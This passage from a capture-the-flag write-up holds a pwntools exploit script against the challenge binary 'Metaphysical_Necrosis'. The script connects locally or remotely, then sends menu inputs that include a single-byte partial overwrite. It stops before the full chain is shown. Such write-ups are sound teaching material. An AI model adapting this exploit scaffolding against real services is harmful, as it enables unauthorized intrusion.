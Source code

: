 #### 0x4 exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './Metaphysical_Necrosis'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = 'libc-2.23.so'
is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote=True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    gdb.attach(p,cmd)

# info
# gadget
# elf, libc

print ru('你要把C4安放在哪里呢？\n')
# debug()
sl('5')
if is_local:  se('\x43')
if is_remote: se('\x08')
sleep(1)
ru('the bomb has been planted!\n')
sl('')
print ru('不如把它宰了，吃一顿大餐，你说吼不吼啊！\n')
sl('')
ru('起个名字:')
sl('Imagin')
```